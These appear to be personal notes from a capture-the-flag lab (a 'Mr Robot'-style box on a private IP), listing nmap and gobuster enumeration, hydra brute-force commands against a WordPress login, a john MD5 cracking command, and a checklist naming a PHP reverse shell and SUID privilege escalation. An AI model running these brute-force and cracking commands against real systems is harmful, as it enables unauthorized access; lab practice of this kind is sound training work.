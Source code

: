 # Methodology

## Preparation
```bash
export IP="10.10.165.80"
```

## Port enumeration
```bash
mkdir -p scans/nmap
nmap -v -sC -sV -oN nmap/initial $IP
nmap -v -p- -oN nmap/all_ports $IP
```

## HTTP enumeration
```bash
mkdir -p scans/gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/medium_list -x php,sh,cgi,txt,html,js,css,py
```

## Brute force
```bash
# L = Username wordlist
# l = Username
# P = Password list
# p = password

# Command guide
# sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"

# Brute forcing username
sudo hydra -L downloads/fsocity.dic -p "sample" $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"

# Brute force password
sudo hydra -l Elliot -P downloads/fsocity.dic $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"
```

## Reverse Shell
```bash

```

## Password bruteforce
```bash
# Crack MD5 password found using john

# Command guide
# john <filename> --wordlist=<wordlist> --format=<hash format>

# Determine the file hash type using hash-identifier

john md5.hash --wordlist=downloads/fsocity.dic --format=Raw-MD5

```

# Comments
-   enumerate ports using nmap
    -   found ports 80 and 443
-   enumerate website pages using gobuster
    -   found /login
-   check for available files in robots.txt
    -   found dic and txt
-   use hydra to brute force login
    -   https://infinitelogins.com/2020/02/22/-how-to-brute-force-websites-using-hydra/
-   create php revershell
    -   ready
-   check home directories
-   crack password found using john
-   change shell to interactive using python
-   change to another user using password found
-   find SUID binaries
-   privilege escalation using SUID enabled binaries